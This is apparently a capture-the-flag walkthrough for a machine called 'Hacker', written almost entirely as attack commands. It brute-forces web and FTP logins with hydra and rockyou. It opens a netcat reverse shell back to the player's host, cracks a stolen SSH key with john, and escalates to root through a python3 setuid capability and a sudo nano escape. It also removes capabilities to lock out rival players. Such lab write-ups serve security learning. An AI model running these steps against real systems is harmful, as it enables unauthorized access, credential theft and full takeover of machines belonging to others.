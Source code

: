 Hacker


**NOTE: This machine resets passwords automatically and are different on every game.**
https://jc01.ninja/ctf/hackers/
## Getting a shell:

- `hydra IP http-post-form '/api/login:username=^USER^&password=^PASS^:Incorrect' -l plague -P /usr/share/wordlists/rockyou.txt -t 64`
- `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP 4242 >/tmp/f`
- on your machine: `nc -lvnp 4242`
Change to ssh key + login

### Getting root
- `sudo -l`

```
LFILE=file_to_write
echo $USERNAME | openssl enc -out "/root/king.txt"
```

Getting root shell:
- `python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'`

Remove Capability:
- `setcap -r /usr/bin/python3.6`
- `setcap -r /usr/bin/python3.6m`

### Method 2
- `ftp IP` anonymous:anything
	- `passive`
	- `get note`
- brute force ftp credentials using users `hydra ftp://IP -l gcrawford -P /usr/share/wordlists/rockyou.txt -t 64`
- `ftp IP` 
	- `get id_rsa`
- `python3 /usr/share/john/ssh2john.py id_rsa > ssh_hash.txt`
- `john ssh_hash.txt --format=ssh --wordlist=/usr/share/wordlists/rockyou.txt`
- `ssh -i id_rsa gcraford@IP`

`sudo nano`

`^R^X`

`reset; sh 1>&0 2>&0`

### Method 3
- `hydra ftp://IP -l rcampbell -P /usr/share/wordlists/rockyou.txt -t 64`
- `ssh` in with password